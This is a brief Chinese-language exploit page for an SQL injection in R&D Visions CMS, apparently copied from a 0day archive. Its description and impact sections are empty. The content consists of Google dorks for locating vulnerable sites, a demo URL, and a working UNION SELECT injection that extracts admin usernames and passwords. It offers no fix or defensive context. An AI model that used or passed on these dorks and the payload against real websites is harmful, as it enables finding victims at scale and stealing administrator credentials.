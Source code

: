 # R&D Visions CMS SQL Injection

> 原文：[http://book.iwonder.run/0day/R&D Visions CMS/1.html](http://book.iwonder.run/0day/R&D Visions CMS/1.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

Google Dork:

```
intext:"Website by R&D Visions" inurl:.php?id=

intext:"CMS System by R&D Visions" 
```

Demo:

```
https://www.0-sec.org/home.php?newid=53[SQLi] 
```

Injection:

```
https://www.0-sec.org/home.php?newid=-53+Union+Select+1,Group_ConCat(user,0x3a,pass),3,4,5,6,7,8,9,10,11,12+From+admin_user_log--+ 
```

